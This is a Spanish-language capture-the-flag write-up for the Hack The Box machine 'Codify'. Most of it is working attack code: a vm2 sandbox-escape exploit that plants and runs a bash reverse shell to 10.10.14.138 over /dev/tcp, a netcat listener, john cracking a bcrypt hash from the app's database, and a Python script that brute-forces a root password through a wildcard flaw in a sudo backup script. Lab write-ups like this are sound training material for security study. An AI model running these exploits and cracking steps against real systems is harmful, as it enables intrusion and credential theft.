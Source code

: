 ```yaml
---
author: naibu3
date: 2023-04-20
tier: easy
---
```

#linux 

## Fase de reconocimiento

```bash
sudo nmap -sS -p- --min-rate 5000 --open -n -Pn 10.10.11.239
```
```nmap
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

Si añadimos el dominio **`codify.htb`** al `/etc/hosts`, podremos acceder a la siguiente web:

![[Pasted image 20231120170517.png]]
![[Pasted image 20231120170652.png]]
![[Pasted image 20231120170624.png]]
![[Pasted image 20231120171030.png]]

Nos llama la atención el editor de código basado en la librería **vm2**, que se nos referencia en *`codify.htb/about`*, si seguimos el enlace, veremos que es concretamente la versión **3.9.16**. Si buscamos como podemos escapar de un entorno de *sandbox* como este, encontraremos la siguiente [vulnerabilidad](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244), que nos permite [[RCE]] (*ejecución remota de comandos*):

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo "bash -i >& /dev/tcp/10.10.14.138/8080 0>&1" > payload.sh');
}
`

console.log(vm.run(code));
```
> Creamos una [[Reverse shell]] en el servidor.

```bash
nc -lvnp 8080
```
> Nos ponemos en escucha con [[netcat]].

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('bash payload.sh');
}
`

console.log(vm.run(code));
```
> Ejecutamos la *reverse shell*.

Una vez recibida la conexión, aplicamos un [[Tratamiento de la tty]] para hacer más cómodo el [[Reconocimiento del equipo]].

## Usuario joshua

Vemos que estamos como el usuario **svc**, y que existe además **joshua**.

Encontramos también una aplicación web que parece acceder a una base de datos:

```js
secret: 'G3U9SHG29S872HA028DH278D9178D90A782GH',
[...]
bcrypt.compare(password, row.password, (err, result) => {
```

Aunque no podemos entrar en la BD, podemos ver las cadenas con **`strings`**:

`$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`

Y encontramos la siguiente que parece ser un hash en formato **bcrypt**, por tanto tratamos de romperlo con [[john]]:

```bash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt
```

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
```john
spongebob1
```

```bash
joshua@codify:~$ cat brute.py 
```
```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

`kljh12k3jhaskjh12kjh3`

